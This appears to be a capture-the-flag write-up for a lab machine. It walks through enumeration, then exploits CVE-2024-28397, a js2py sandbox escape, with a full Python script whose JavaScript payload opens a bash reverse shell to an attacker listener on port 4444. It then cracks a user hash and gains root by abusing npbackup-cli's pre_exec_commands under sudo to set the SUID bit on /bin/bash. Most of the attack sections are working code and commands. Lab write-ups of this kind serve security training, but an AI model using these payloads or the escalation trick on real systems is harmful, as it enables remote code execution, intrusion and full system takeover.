

](nmap.png)

First the service is running a website so browse the website for further analysis.

](websiteJS.png)

After logged in, it is a simple website that can execute JavaScript program.

](<under download param.png>)

If we run ffuf we find there is /download endpoint so download it to view what cve that it have that we can use to exploit.

](rce.png)

CVE-2024-28397 this is the cve so browse for POC available in GitHub [https://GitHub.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/README.md](https://GitHub.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/README.md)

So edit accordingly into a suitable payload.

```python
import requests
import json

url = 'http://10.10.11.82:8000/run_code'

# Modified payload for reverse shell
payload_code = """  
// [+] command goes here:  
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'";  
let hacked, bymarve, n11  
let getattr, obj  

hacked = Object.getOwnPropertyNames({})  
bymarve = hacked.__getattribute__  
n11 = bymarve("__getattribute__")  
obj = n11("__class__").__base__  
getattr = obj.__getattribute__  

function findpopen(o) {  
    let result;  
    for(let i in o.__subclasses__()) {  
        let item = o.__subclasses__()[i]  
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {  
            return item  
        }  
        if(item.__name__ != "type" && (result = findpopen(item))) {  
            return result  
        }  
    }  
}  

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()  
console.log(n11)  
n11  
"""  

payload = {"code": payload_code}
headers = {"Content-Type": "application/json"}

def exploit():
    print("[*] Sending exploit to 10.10.11.82...")
    print("[*] Make sure listener is running: nc -lvnp 4444")
    
    try:
        response = requests.post(url, data=json.dumps(payload), headers=headers)
        print(f"[+] Response: {response.text}")
        
        if "error" not in response.text.lower():
            print("[!] Exploit may have succeeded! Check your listener.")
        else:
            print("[-] Exploit failed with error")
            
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    exploit()
```

](<hashcrack marco.png>)

Here we found user marco hash to crack under. db file and then ssh it to retrieve the user flag and further privilege escalation.



Vulnerability Found: The npbackup-cli tool had a feature called pre_exec_commands that executes commands with root privileges during backup operations.

Exploitation: You created a configuration file with:

```bash
cat > /tmp/exec.conf << 'EOF'
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: /tmp/backup
    backup_opts:
      pre_exec_commands:
        - /bin/bash -c 'chmod 4755 /bin/bash'
      paths:
      - /home/marco/
    repo_opts:
      repo_password: test
groups:
  default_group: {}
EOF

sudo /usr/local/bin/npbackup-cli -c /tmp/exec.conf -b -f
```
Key Output: Pre-execution of command /bin/bash -c 'chmod 4755 /bin/bash' succeeded with: None

```bash
ls -la /bin/bash
Output: -rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash ✅
```

Yaml
Pre_exec_commands:
 - /bin/bash -c 'chmod 4755 /bin/bash'
 - Privilege Escalation: You then ran /bin/bash -p where:

The -p flag tells bash to preserve privileges when it has the SUID bit set

This gave you a root shell (bash-5.0#)
